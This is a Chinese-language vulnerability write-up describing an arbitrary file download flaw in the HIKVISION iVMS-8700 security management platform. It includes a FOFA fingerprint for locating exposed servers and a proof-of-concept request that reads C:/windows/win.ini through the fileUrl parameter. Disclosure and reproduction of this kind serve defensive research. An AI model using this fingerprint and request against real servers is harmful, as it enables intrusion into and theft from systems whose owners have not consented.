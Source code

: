 # HIKVISION iVMS-8700综合安防管理平台 download 任意文件下载漏洞

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件读取漏洞，攻击者通过发送特定的请求包可以读取服务器中的敏感文件获取服务器信息

## 漏洞影响

HIKVISION iVMS-8700综合安防管理平台

## FOFA

```
icon_hash="-911494769"
```

## 漏洞复现

登录页面

![image-20230704110859434](./images/image-20230704110859434.png)

验证POC， token 为 Url md5

```
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

![image-20230704111021242](./images/image-20230704111021242.png)